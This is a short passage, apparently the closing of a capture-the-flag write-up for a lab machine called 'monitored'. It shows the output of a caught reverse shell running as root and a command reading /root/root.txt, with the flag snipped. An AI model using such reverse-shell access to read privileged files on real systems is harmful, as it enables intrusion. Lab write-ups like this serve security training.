connect to [10.10.14.11] from (UNKNOWN) [10.10.11.248] 51972
bash: cannot set terminal process group (62859): Inappropriate ioctl for device
bash: no job control in this shell
root@monitored:/# cat /root/root.txt
cat /root/root.txt
<SNIP>
``` -->

![](machine_pwned.png){: width="75%" .normal}